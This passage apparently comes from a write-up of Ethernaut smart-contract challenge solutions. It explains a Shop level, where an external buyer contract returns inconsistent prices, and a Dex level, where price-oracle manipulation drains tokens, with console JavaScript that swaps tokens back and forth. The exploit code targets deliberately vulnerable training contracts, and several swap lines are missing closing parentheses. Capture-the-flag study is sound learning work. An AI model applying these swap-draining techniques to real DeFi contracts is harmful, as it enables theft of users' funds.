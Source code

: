 **Exploit**: Logic manipulation by external contract

**Solution**: Similar to challenge 11, Elevator, the ```Shop``` contract makes 2 calls to an external ```Buyer``` contract (set to ```msg.sender```) to check the price paid in the ```buy()``` function. We again exploit that logic to return different values for the 2 calls.

The ```Shop``` contract ```buy()``` function sets ```isSold``` to true after the first ```buyer.price()``` call, as long as the value is greater than the current price. Create the ```Buyer``` contract, and implement the ```price()``` function so that it returns an amount < 100 if ```isSold``` is true, or > 100 if ```isSold``` is false.

Source contract: [contracts/Shop.sol](contracts/Shop.sol)  
Solution contract: [contracts/Shop_Hack.sol](contracts/Shop_Hack.sol)  
Test: [test/E21_Shop.test.js](test/E21_Shop.test.js)

---
## Ethernaught 22: [Dex](https://ethernaut.openzeppelin.com/level/0xC084FC117324D7C628dBC41F17CAcAaF4765f49e)

**Challenge**: Drain all of one token from a DEX

**Exploit**: Price oracle manipulation

**Solution**: The flaw in this simulated DEX is that price data for token swaps comes from a single source. In this case, price is calculated based on the amount of each token in the contract. We are given 10 each of token1 and token2 to start. The DEX contract has 100 of each token. Based on the way token price is calculated, we can perform series of swaps trading all assets we have available to one token, then the other, back and forth, causing the price of each token to shift in our favor until the contract is drained.

Note that a contract moving ERC20 requires that the owner first ```approve()``` the contract to do that. This challenge made that requirement simpler by providing its own ```approve()``` function on the ```Dex``` contract. You can read more about that on the [Ethernaught Dex](https://ethernaut.openzeppelin.com/level/0xC084FC117324D7C628dBC41F17CAcAaF4765f49e) page. In the code sample below we are calling this ```approve()``` function provided by the challenge contract.

"Get new instance" from the [Ethernaught Dex](https://ethernaut.openzeppelin.com/level/0xC084FC117324D7C628dBC41F17CAcAaF4765f49e) page, and then using console commands:

```javascript
// Get player balances for token1 and token2 (should be 10 each to start)
await contract.balanceOf(await contract.token1(), player).then(n=>n.toNumber());
await contract.balanceOf(await contract.token2(), player).then(n=>n.toNumber());

// Approve, and then swap all token1 for token2 
await contract.approve(contract.address, await contract.balanceOf(await contract.token1(), player).then(n=>n.toNumber()));

await contract.swap(await contract.token1(), await contract.token2(), await contract.balanceOf(await contract.token1(), player).then(n=>n.toNumber());

// Approve, and then swap all token2 for token1
await contract.approve(contract.address, await contract.balanceOf(await contract.token2(), player).then(n=>n.toNumber()));

await contract.swap(await contract.token2(), await contract.token1(), await contract.balanceOf(await contract.token2(), player).then(n=>n.toNumber());

// Approve, and then swap all token1 for token2 
await contract.approve(contract.address, await contract.balanceOf(await contract.token1(), player).then(n=>n.toNumber()));

await contract.swap(await contract.token1(), await contract.token2(), await contract.balanceOf(await contract.token1(), player).then(n=>n.toNumber());

// Continue until one of the tokens is fully drained...

```